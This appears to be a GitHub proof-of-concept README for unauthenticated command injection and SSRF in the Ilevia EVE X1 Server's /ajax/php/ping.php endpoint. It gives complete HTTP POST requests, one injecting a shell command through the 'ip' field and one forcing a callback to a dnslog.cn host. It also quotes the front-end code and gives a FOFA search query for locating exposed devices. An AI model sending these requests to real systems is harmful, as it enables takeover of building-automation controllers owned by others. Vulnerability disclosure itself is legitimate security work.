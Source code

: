 # ilevia-EVE-X1-Server
ilevia-EVE-X1-Server rce poc;ssrf

## Affected Repository
- Project: Ilevia EVE X1 Server 
- Affect versions: Firmware Version<= 4.7.18.0.eden;Logic Version<=6.00 - 2025_07_21
- File: /ajax/php/ping.php
- homePage: https://www.ilevia.com/
- Dependency: Ilevia EVE X1 Server ( Firmware Version<= 4.7.18.0.eden;Logic Version<=6.00 - 2025_07_21)

## Proof of Concept (PoC)
- rce
```
POST /ajax/php/ping.php HTTP/1.1
Host: 
Accept: */*
Origin: http://
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.66 Safari/537.36
content-type: application/x-www-form-urlencoded
Referer: http://ip/diagnostic/
Content-Length: 6

ip=;id;
```
<img width="1307" height="359" alt="image" src="https://github.com/user-attachments/assets/be1a6130-9a3f-4655-80be-80a89a3e5128" />

- ssrf

```
POST /ajax/php/ping.php HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.66 Safari/537.36
content-type: application/x-www-form-urlencoded
Content-Length: 6

ip=222.8emgy0.dnslog.cn
```
<img width="1301" height="484" alt="image" src="https://github.com/user-attachments/assets/6b6e044e-c5c3-4282-b9a4-7f7b9e5e3aaf" />
<img width="1162" height="268" alt="image" src="https://github.com/user-attachments/assets/9caa7358-1ccf-46e3-a5ae-baa2da7df74f" />

Front end code

```
function eveCanReachIP(strIP,callback){
	var eve = new eveRequest();
	eve.open("POST","/ajax/php/ping.php",true);
	eve.setRequestHeader("content-type","application/x-www-form-urlencoded");
	eve.onreadystatechange =
	function(){
		switch (eve.readyState) {
		  case 0 : // UNINITIALIZED
		  case 1 : // LOADING
		  case 2 : // LOADED
		  case 3 : // INTERACTIVE
		  break;
		  case 4 : // COMPLETED
			if(eve.status == 200){
				if(eve.responseText == "0"){
					callback(1,eve.responseText);
				}else{
					callback(0,eve.responseText);
				}
			}else{
				callback(1,"[" + eve.status + "][" + eve.responseText + "]");
			}
		  break;
		  default: callback(1,"[" + eve.status + "][" + eve.responseText + "]");
	   }
	}
	eve.send("ip=" + strIP);
}
```
<img width="744" height="388" alt="image" src="https://github.com/user-attachments/assets/44c7d517-1e9b-4bb9-b514-18ee511b1a67" />


## Vulnerability category
- CWE-78 OS Command Injection
- CWE-918 SSRF
## Scope of influence
- fofa：app="ilevia-EVE-X1-Server"
<img width="1482" height="340" alt="image" src="https://github.com/user-attachments/assets/2075aed5-76be-438a-a18e-e2e33380c26f" />
